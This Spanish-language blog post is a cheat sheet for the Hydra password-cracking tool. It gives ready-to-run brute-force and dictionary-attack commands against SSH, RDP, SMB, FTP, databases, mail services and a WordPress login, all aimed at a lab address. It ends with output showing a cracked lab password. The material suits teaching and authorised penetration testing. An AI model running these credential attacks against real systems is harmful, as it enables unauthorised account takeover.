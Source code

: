 ```yaml
---
date: 2022-05-29T23:08:12.000Z
layout: post
comments: true
title: Hydra
subtitle: 'Herramienta para romper contraseñas'
description: >-
image: >-
  nptg24.github.io/images/Hydra.png
optimized_image: >-
  nptg24.github.io/images/Hydra.png
category: ciberseguridad
tags:
  - Brute-Force
  - Fuerza-Bruta
  - contraseña
  - password
  - Diccionario
  - Wordlist
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una herramienta para romper inicios de sesión a través de ataques de fuerza bruta o de diccionario.

Admite: Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP- Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT) , SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 y v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC y XMPP.

### Tabla de parámetros

| Parámetro | Utilidad |
| :--------: | :-------: |
| -P | Indica la ruta del diccionario de contraseñas. |
| -L | Indica la ruta del diccionario de usuarios. |
| -t | Hilos (1-64). |
| -s | Se selecciona el puerto del servicio en el caso de que no sea por defecto. |
| -f | Salir cuando se encuentren las credenciales de inicio de sesión/contraseña. |
| -vV | Verbose. |

### CouchDB

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt -P /usr/share/wordlists/password.lst localhost -s 5984 http-get /
```

### Docker Registry

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt  -P /usr/share/wordlists/password.lst 10.1.1.30 -s 5000 https-get /v2/
```

### Elasticsearch

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt -P /usr/share/wordlists/password.lst localhost -s 9200 http-get /
```

### FTP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt -t 32 10.1.1.30 ftp
```

### HTTP-GET

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L username.txt -P /usr/share/wordlists/rockyou.txt 10.1.1.30 http-get /admin
```

Para el caso de https, se debe reemplazar ```http-post``` por ```https-get```.


### HTTP-POST

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P password.lst 10.1.1.30 http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
```

Para el caso de https, se debe reemplazar ```http-post-form``` por ```https-post-form```.

### IMAP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l USERNAME -P /path/to/passwords.txt -f 10.1.1.30 imap -V
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f 10.1.1.30 imap -V
```

### LDAP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P passwords.txt 10.1.1.30 ldap2 -V -f
```

### MySQL

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L usernames.txt -P pass.txt 10.1.1.30 mysql
```

### POP3

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.1.1.30 pop3 -V
```

### PostgreSQL

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt –P passwords.txt 10.1.1.30 postgres
```

### RDP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.1.1.30
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -L users.txt -P /usr/share/wordlists/rockyou.txt rdp://10.1.1.30
```

### Redis

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra –P passwords.txt redis://10.1.1.30:6379
```

### Rexec

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l user -P passwords.txt rexec://10.1.1.30 -v -V
```

### Rlogin

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l user -P passwords.txt rlogin://10.1.1.30 -v -V
```

### Rsh

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L user.txt rsh://10.1.1.30 -v -V
```

### RTSP


```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt 10.1.1.30 rtsp
```

### SMB

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 10.1.1.30 smb
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -L users.txt -P /usr/share/wordlists/rockyou.txt 10.1.1.30 smb
```

### SMTP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -P /usr/share/wordlists/wordlistsnmap.lst 10.1.1.30 smtp -V
```

### SNMP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -P wordlist.txt -v 10.1.1.30 snmp
```

### SQL Server

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L user.txt –P passwords.txt 10.1.1.30 mssql
```

### SSH

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -L users.txt -P passwords.txt -t 1 -u 10.1.1.30 ssh
```

Al conocer el usuario:

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -l user -P passwords.txt -t 1 10.1.1.30 ssh
```

Al conocer la contraseña:

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -L users.txt -p password -t 1 -u 10.1.1.30 ssh
```

### Telnet

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt -t 32 10.1.1.30 telnet
```

### VNC

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt –P passwords.txt -s 5432 10.1.1.30 vnc
```

### Nota

Para eliminar elementos repetidos de un diccionario se debe realizar lo siguiente:

```bash
┌─[root@kali]─[/hydra]
└──╼ cat wordlist.dic | sort | uniq > new_wordlist.txt
```

### Ejemplo en Wordpress


```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P passwords.txt 10.1.1.30 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 64
...
...
...
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "examples" - 5686 of 11452 [child 35] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "Examples" - 5687 of 11452 [child 50] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "exams" - 5688 of 11452 [child 8] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "excellent" - 5689 of 11452 [child 29] (0/0)
[80][http-post-form] host: 10.1.1.30   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
```

